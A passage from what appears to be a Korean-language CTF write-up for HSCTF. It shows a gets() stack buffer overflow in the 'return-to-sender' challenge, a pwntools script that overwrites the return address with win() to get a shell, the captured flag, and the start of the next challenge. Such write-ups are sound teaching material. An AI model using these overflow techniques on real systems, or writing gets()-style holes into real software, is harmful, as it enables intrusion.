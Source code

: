   printf("Where are you sending your mail to today? ");
  gets(&s);
  return printf("Alright, to %s it goes!\n", &s);
}
{{< /highlight >}}
3번째 줄을 보면 지역변수 s는 bp-0x10에 위치하고 있습니다. 따라서, sfp가 4바이트를 차지하므로 리턴 주소까지 거리는 0x14입니다.

```c
+-------------+--------------+--------+--------+
|   dest[8]   |   dummy[8]   | sfp[4] | ret[4] |
+-------------+--------------+--------+--------+
```
```python
payload = ''
payload += 'a' * 0x14
```
그리고 리턴 주소는 win()의 주소가 들어갑니다.
```python
e = ELF('./return-to-sender')

payload = ''
payload += 'a' * 0x14
payload += e.sym.win
```
```python
e = ELF('./return-to-sender')
r = remote('pwn.hsctf.com', 1234)

payload = ''
payload += 'a' * 0x14
payload += e.sym.win

r.sendlineafter('? ', payload)
r.interactive()
```
```shell
Alright, to aaaaaaaaaaaaaaaaaaaa\xb6\x91\x0 it goes!
$ cat flag
hsctf{fedex_dont_fail_me_now}
```
## [Combo Chain Lite](#index)
```diff
Combo Chain Lite
400
Written by: Ptomerty

Training wheels!

nc pwn.hsctf.com 3131
```
바이너리와 소스코드를 제공해줍니다.
{{< highlight c "linenos=true" >}}
#include <stdlib.h>
#include <string.h>
#include <stdio.h>
